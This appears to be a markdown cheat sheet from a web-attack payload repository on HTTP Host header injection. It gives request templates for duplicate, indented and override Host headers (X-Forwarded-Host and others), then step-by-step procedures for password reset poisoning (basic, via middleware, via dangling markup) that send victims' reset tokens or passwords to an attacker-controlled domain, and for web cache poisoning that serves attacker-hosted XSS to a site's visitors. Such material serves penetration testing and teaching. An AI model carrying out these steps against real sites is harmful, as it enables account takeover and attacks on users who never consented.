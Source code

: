 # Header injection

## Summary
* [Injecting ambiguous request into arbitrary header](#injecting-ambiguous-request-into-arbitrary-header)
    * [Inject duplicate host headers](#inject-duplicate-host-headers)
    * [Supply an absolute url](#supply-an-absolute-url)
    * [Indenting HTTP headers with blank characters](#indenting-http-headers-with-blank-characters)
    * [Adding non-numeric port to the host header](#adding-non-numeric-port-to-the-host-header)
    * [Injecting malicious code into "X-Forwarded-Host"](#injecting-malicious-code-into-x-forwarded-host)
    * [Other similar HTTP headers](#other-similar-http-headers-with-similar-purpose)
* [Password reset poisoning attack](#password-reset-poisoning-attack)
    * [Basic password reset poisoning](#basic-password-reset-poisoning)
    * [Password reset poisoning via middleware](#password-reset-poisoning-via-middleware)
    * [Password reset poisoning via dangling markup](#password-reset-poisoning-via-dangling-markup)
* [Web cache poisoning via host header attack](#web-cache-poisoning-via-the-host-header-attack)

## Injecting ambiguous request into arbitrary header
### Inject duplicate host headers
```
> Host: vulnerable-website.com
> Host: malicious code here
```
### Supply an absolute url
```
> GET https://vulnerable-website.com/ HTTP/1.1
> Host: malicious code here
```
### Indenting HTTP headers with blank characters
```
> GET /example HTTP/1.1
>      Host: malicious code here
> Host: vulnerable-website.com
```
### Adding non-numeric port to the Host header
```
> GET /example HTTP/1.1
> Host: vulnerable-website.com:bad stuff here
```
### Injecting malicious code into "X-Forwarded-Host"
```
> GET /example HTTP/1.1
> Host: vulnerable-website.com
> X-Forwarded-Host: malicious code here
```
### Other similar HTTP headers with similar purpose
```
> X-Host
> X-Forwarded-Server
> X-HTTP-Host-Override
> Forwarded
```

## Password reset poisoning attack
### Basic password reset poisoning
```
> go to any login page and request for password reset for your own account
> observe what happens and most "password reset" link will contain a temporary token
> now request for password reset for any email address that is known but replace the "Host" header with attacker domain server name
> navigate to access log on attacker domain server and notice there is a GET request with temporary token in the url that should be for the victim account
> copy the previous password reset url for your own account and replace the token with the victim token
> go to the url and change the password
```
### Password reset poisoning via middleware
```
> go to any login page and request for password reset for your own account
> observe what happens and most "password reset" link will contain a temperory token
> now request for password reset for any known email address and replace the "Host" header with attacker domain server name
> notice that the website or the server does not recognized the domain server and as result, no temporary token were generated
> request for password reset again but this time, leave the "Host" header as usual but then add another header "X-Forwarded-Host: attacker.domain.server.name"
> send the request and notice that the password reset request is successful
> navigate to access log on attacker domain server and notice there is a GET request with temporary token in the url that should belong to the victim account
> copy the previous password reset url for your own account and replace the token with the victim token
> go to the url and change the password
```
### Password reset poisoning via dangling markup
```
> go to any login page and request for password reset for your own accound
> observe what happens and this time the password reset link does not contain any temporary token, instead a new password for the user is sent
> trying to change the Host header and injecting "Host override headers" do not get us anywhere
> now request for password reset for any known email address and add a non-numeric port to the "Host" header like this = Host: example.com:<a href=attacker.domain.server.name/?
> send the request and notice that the password reset request is successful
> navigate to access log on attacker domain server and notice there is a GET request with the password created by the website
> login into the victims accound and the newly generated password
```

## Web cache poisoning via the host header attack
```
> request for the website and observe how the response work
> notice that there is a "X-Cache" header in the response
> the "X-Cache" header needs to have a "hit" value, that is how we know any request that is made to the website is cached
> add a cache buster in the "GET /?cb=123" and observe the response
> the "X-Cache" header has a hit value
> now remove the the cache buster and try to request again
> in the second request, the cache buster is still there because earlier, the cache buster is already cached within the website
> now send another request with a second "Host" header and set it to the attacker domain server name
> send a request for the page and observe the response, notice how the second "Host" header value is already cached
> this means we can make the victim website to be redirect to the attacker domain server that will run a XSS script
> request the page with the cache buster again also with the second "Host" header to cache the latest request
> now the victims website will run the XSS script stored inside the attacker domain server 
```
